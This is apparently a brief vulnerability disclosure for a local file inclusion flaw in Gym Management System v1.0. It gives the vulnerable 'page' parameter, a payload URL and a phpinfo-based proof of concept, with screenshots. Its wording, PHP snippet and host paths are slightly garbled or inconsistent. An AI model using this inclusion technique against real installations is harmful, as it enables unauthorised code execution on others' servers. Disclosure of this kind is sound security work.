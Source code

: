 # Gym Management System v1.0 by oretnom23 has The local file contains

vendor : https://www.sourcecodester.com/php/14541/gym-management-system-using-phpmysqli-source-code.html

Vulnerability File: ip/gym-management-system/index.php?page=

Vulnerability location: ip/gym-management-system/index.php?page=, page

Payload: ip/gym-management-system/index.php?page=shell
![image](https://user-images.githubusercontent.com/54017627/167055236-73ab971c-99fb-4df9-89b1-e32ec6f5e073.png)

We create a shell.php under the PHP file of the root of the website, which reads "<?" phpinfo ();? > "

![image](https://user-images.githubusercontent.com/54017627/167055202-9a09bcdc-0dbb-407f-bd09-9b5b4fb3d361.png)

And visit http://sns/admin/?page=shell You can see that phpinfo has been successfully included

![image](https://user-images.githubusercontent.com/54017627/167055186-dba329b1-4698-4459-a0a5-072d1b48944c.png)
